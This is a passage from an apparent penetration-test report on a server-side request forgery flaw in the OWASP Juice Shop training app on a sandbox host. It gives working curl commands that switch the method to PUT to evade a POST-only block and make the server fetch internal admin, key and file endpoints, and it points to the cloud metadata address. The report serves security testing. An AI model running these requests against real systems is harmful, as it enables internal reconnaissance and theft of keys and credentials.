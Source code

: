 3. **Bypass SSRF protection using PUT method:**
   ```bash
   curl -X PUT http://juice-shop.sandbox.local:3001/profile/image/url \
     -H "Authorization: Bearer [JWT_TOKEN]" \
     -H "Content-Type: application/json" \
     -d '{"imageUrl":"http://localhost:3001/solve/challenges/server-side-request-forgery"}'
   ```

4. **Access internal services:**
   ```bash
   # Access same server via localhost
   curl -X PUT http://juice-shop.sandbox.local:3001/profile/image/url \
     -H "Authorization: Bearer [JWT_TOKEN]" \
     -H "Content-Type: application/json" \
     -d '{"imageUrl":"http://127.0.0.1:3001/rest/admin/application-configuration"}'
   
   # Access encryption keys
   curl -X PUT http://juice-shop.sandbox.local:3001/profile/image/url \
     -H "Authorization: Bearer [JWT_TOKEN]" \
     -H "Content-Type: application/json" \
     -d '{"imageUrl":"http://localhost:3001/encryptionkeys/jwt.pub"}'
   
   # Access internal file resources
   curl -X PUT http://juice-shop.sandbox.local:3001/profile/image/url \
     -H "Authorization: Bearer [JWT_TOKEN]" \
     -H "Content-Type: application/json" \
     -d '{"imageUrl":"http://localhost:3001/ftp/incidents/suspicious_errors.yml"}'
   ```

**Proof of Impact:**

1. **Method Bypass Discovery:** 
   - POST requests return 302 redirect (blocked): `Found. Redirecting to /profile` (30 bytes)
   - PUT requests return 200 OK with full HTML content (80,117 bytes)

2. **Internal Service Access Confirmed:**
   - Successfully accessed localhost services on various ports (22, 80, 3000, 3001, 8080, 9090)
   - Retrieved full OWASP Juice Shop application HTML through internal requests
   - Accessed protected endpoints like `/encryptionkeys/jwt.pub` and `/ftp/incidents/`

3. **Network Boundary Bypass:**
   - Server makes HTTP requests to user-controlled destinations
   - No validation of destination IP ranges (private IPs, localhost accessible)
   - No protocol restrictions (can access various URL schemes)

**Notes:**
- The vulnerability bypasses intended POST-only protection by using PUT/PATCH methods
- Server processes `imageUrl` parameter through Node.js `fetch()` API without validation
- All internal network resources are accessible including same-server endpoints
- Cloud metadata endpoints (AWS/GCP/Azure) are accessible: `http://169.254.169.254/latest/meta-data/`
- This represents a classic Server-Side Request Forgery vulnerability allowing network reconnaissance and potential data exfiltration

